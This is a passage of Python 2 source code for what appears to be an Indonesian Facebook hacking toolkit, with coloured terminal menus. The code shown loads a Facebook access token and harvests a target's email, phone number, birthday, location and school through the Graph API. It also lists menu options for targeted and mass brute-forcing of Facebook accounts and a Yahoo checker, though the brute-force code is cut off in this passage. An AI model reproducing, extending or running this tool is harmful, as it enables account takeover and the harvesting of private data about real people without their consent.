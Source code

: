 '\x1b[1;91m[!] \x1b[1;93mSepertinya akun kena Checkpoint'             os.system('rm -rf login.txt')             time.sleep(1)             login()         except requests.exceptions.ConnectionError:             print '\x1b[1;91m[!] Tidak ada koneksi'             keluar()      os.system('reset')     print logo     print '\x1b[1;97m\xe2\x95\x94' + 40 * '\xe2\x95\x90'     print '\xe2\x95\x91\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m]\x1b[1;97m Nama \x1b[1;91m: \x1b[1;92m' + nama     print '\x1b[1;97m\xe2\x95\x9a' + 40 * '\xe2\x95\x90'     print '\x1b[1;37;40m1. Informasi Pengguna'     print '\x1b[1;37;40m2. Hack Akun Facebook'     print '\x1b[1;37;40m3. Bot               '     print '\x1b[1;37;40m4. Lainnya....       '     print '\x1b[1;37;40m5. LogOut            '     print '\x1b[1;31;40m0. Keluar            '     print     pilih()   def pilih():     zedd = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')     if zedd == '':         print '\x1b[1;91m[!] Jangan kosong'         pilih()     else:         if zedd == '1':             informasi()         else:             if zedd == '2':                 menu_hack()             else:                 if zedd == '3':                     menu_bot()                 else:                     if zedd == '4':                         lain()                     else:                         if zedd == '5':                             os.system('rm -rf login.txt')                             os.system('xdg-open http://indoxploit.id')                             keluar()                         else:                             if zedd == '0':                                 keluar()                             else:                                 print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + zedd + ' \x1b[1;91mTidak ada'                                 pilih()   def informasi():     os.system('reset')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()      os.system('reset')     print logo     print 40 * '\x1b[1;97m\xe2\x95\x90'     id = raw_input('\x1b[1;91m[+] \x1b[1;92mMasukan ID\x1b[1;97m/\x1b[1;92mNama\x1b[1;91m : \x1b[1;97m')     jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')     r = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)     cok = json.loads(r.text)     for p in cok['data']:         if id in p['name'] or id in p['id']:             r = requests.get('https://graph.facebook.com/' + p['id'] + '?access_token=' + toket)             z = json.loads(r.text)             print 40 * '\x1b[1;97m\xe2\x95\x90'             try:                 print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mNama\x1b[1;97m          : ' + z['name']             except KeyError:                 print '\x1b[1;91m[?] \x1b[1;92mNama\x1b[1;97m          : \x1b[1;91mTidak ada'             else:                 try:                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mID\x1b[1;97m            : ' + z['id']                 except KeyError:                     print '\x1b[1;91m[?] \x1b[1;92mID\x1b[1;97m            : \x1b[1;91mTidak ada'                 else:                     try:                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mEmail\x1b[1;97m         : ' + z['email']                     except KeyError:                         print '\x1b[1;91m[?] \x1b[1;92mEmail\x1b[1;97m         : \x1b[1;91mTidak ada'                     else:                         try:                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mNomor HP\x1b[1;97m      : ' + z['mobile_phone']                         except KeyError:                             print '\x1b[1;91m[?] \x1b[1;92mNomor HP\x1b[1;97m      : \x1b[1;91mTidak ada'                         else:                             try:                                 print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mLokasi\x1b[1;97m        : ' + z['location']['name']                             except KeyError:                                 print '\x1b[1;91m[?] \x1b[1;92mLokasi\x1b[1;97m        : \x1b[1;91mTidak ada'                             else:                                 try:                                     print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mTanggal Lahir\x1b[1;97m : ' + z['birthday']                                 except KeyError:                                     print '\x1b[1;91m[?] \x1b[1;92mTanggal Lahir\x1b[1;97m : \x1b[1;91mTidak ada'                          try:                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mSekolah\x1b[1;97m       : '                             for q in z['education']:                                 try:                                     print '\x1b[1;91m                   ~ \x1b[1;97m' + q['school']['name']                                 except KeyError:                                     print '\x1b[1;91m                   ~ \x1b[1;91mTidak ada'                          except KeyError:                             pass              raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')             menu()     else:         print '\x1b[1;91m[\xe2\x9c\x96] Pengguna tidak ditemukan'         raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')         menu()   def menu_hack():     os.system('reset')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()      os.system('reset')     print logo     print 40 * '\x1b[1;97m\xe2\x95\x90'     print '\x1b[1;37;40m1. Mini Hack Facebook(\x1b[1;92mTarget\x1b[1;97m)'     print '\x1b[1;37;40m2. Multi Bruteforce Facebook'     print '\x1b[1;37;40m3. Super Multi Bruteforce Facebook'     print '\x1b[1;37;40m4. BruteForce(\x1b[1;92mTarget\x1b[1;97m)'     print '\x1b[1;37;40m5. Yahoo Checker'     print